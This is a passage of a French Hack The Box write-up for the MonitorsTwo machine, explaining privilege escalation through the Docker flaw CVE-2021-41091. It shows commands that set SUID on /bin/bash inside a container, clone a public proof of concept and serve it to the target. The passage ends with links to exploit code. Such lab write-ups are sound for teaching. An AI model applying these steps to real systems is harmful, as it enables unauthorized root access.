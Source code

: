 Nous devrions donc pouvoir exploiter ce CVE. Après quelques recherches, nous tombons sur ce [POC][9]. 

**Vulnérabilité**:
	Plusieurs répertoires dans ``/var/lib/docker``, qui sont montés et utilisés par les conteneurs Docker, sont accessibles aux utilisateurs à faible privilèges. Cela implique que si un attaquant obtient l'accès root à l'intérieur d'un conteneur, il pourrait créer des fichiers ``SUID arbitraires`` avec lesquels un utilisateur non privilégié à l'extérieur du conteneur pourrait interagir et utiliser pour une élevation de privilèges.

- Ce que nous devons donc faire :

   1- Répéter notre processus initial pour obtenir un accès RCE et une élévation de privilèges via le binaire ``capsh`` en utilisant [CVE-2022-46169][3].  
   2- Attribuer les permissions appropriées au binaire bash avec la commande ``chmod u+s /bin/bash``.  
   3- Cloner le PoC du [CVE-2021-41091][9] sur notre machine d'attaque, transférer le script bash (exp.sh) sur la cible en utilisant le compte marcus via SSH, et l'exécuter en utilisant l'utilisateur marcus.  

Répétons notre accès initial puis obtenons les droits root à l'intérieur du conteneur :

  ```bash
  # obtention des droits root à l'intérieur du conteneur
  whoami
  root
  id
  uid=0(root) gid=0(root) groups=0(root),33(www-data)
  # attribution des permissions SUID au binaire bash
  chmod u+s /bin/bash
  ```

Depuis notre machine d'attaque :

	```bash
	# clonage du repo vers ma machine
	$ sudo git clone https://github.com/UncleJ4ck/CVE-2021-41091
	[sudo] password for kali:
	Cloning into 'CVE-2021-41091'...
	remote: Enumerating objects: 25, done.
	remote: Counting objects: 100% (25/25), done.
	remote: Compressing objects: 100% (23/23), done.
	remote: Total 25 (delta 6), reused 3 (delta 0), pack-reused 0
	Receiving objects: 100% (25/25), 6.95 KiB | 6.96 MiB/s, done.
	Resolving deltas: 100% (6/6), done.
	# move within the directory
	$ cd CVE-2021-41091/
	# checking permissions
	$ ls -l
	total 8
	-rwxr-xr-x 1 root root 2446 Jan 25 18:18 exp.sh
	-rw-r--r-- 1 root root 2616 Jan 25 18:18 README.md
	# start a Python HTTP server
	$ python3 -m http.server
	Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
	10.10.11.211 - - [25/Jan/2024 18:19:47] "GET /exp.sh HTTP/1.1" 200 -
	```


[1]:	https://app.hackthebox.com/machines/MonitorsTwo
[2]:	https://nvd.nist.gov/vuln/detail/CVE-2022-46169
[3]:	https://github.com/FredBrave/CVE-2022-46169-CACTI-1.2.22
[4]:	https://gtfobins.github.io/gtfobins/capsh/#suid
[5]:	https://nvd.nist.gov/vuln/detail/CVE-2021-33033
[6]:	https://wiki.ubuntu.com/FocalFossa/ReleaseNotes
[7]:	https://nvd.nist.gov/vuln/detail/CVE-2020-25706 
[8]:	https://nvd.nist.gov/vuln/detail/CVE-2021-41091
[9]:	https://github.com/UncleJ4ck/CVE-2021-41091
[10]:	https://www.youtube.com/watch?v=dJfbogs8Yz0&t=8s
[11]:	https://www.rapid7.com/db/modules/exploit/linux/http/cacti_unauthenticated_cmd_injection/
[12]:	https://www.exploit-db.com/exploits/51166
[13]:	https://github.com/rapid7/metasploit-framework/blob/master//modules/exploits/linux/http/cacti_unauthenticated_cmd_injection.rb#L143
[14]:	https://pento.net/2009/02/27/the-g-modifier-in-the-mysql-command-line-client/
[15]:	https://www.freecodecamp.org/news/where-are-docker-images-stored-docker-container-paths-explained/
[16]:	https://www.gnu.org/software/bash/manual/html_node/The-Set-Builtin.html#:~:text=If%20the%20%2Dp%20option%20is,real%20user%20and%20group%20ids.&text=Enable%20restricted%20shell%20mode.,once%20it%20has%20been%20set
[image-1]: 	img/MonitorsTwo.png
[image-2]:	img/home.png
[image-3]:	img/vuln.png
[image-4]:	img/capsh.png
[image-5]:	img/linuxkernel.png
[image-6]:	img/machine_pwned.png
[image-7]:	img/burp_login_request.png
[image-8]:	img/burp_fatal_error.png
[image-9]:	img/xForwardedFor.png
[image-10]:	img/sleep_attempt.png
[image-11]:	img/payload_pos.png
[image-12]:	img/payload_settings.png
[image-13]:	img/brute_results.png
[image-14]:	img/burp_responseTime.png
[image-15]:	img/proc.png
[image-16]:	img/uptime.png
[image-17]:	img/revshell_payload.png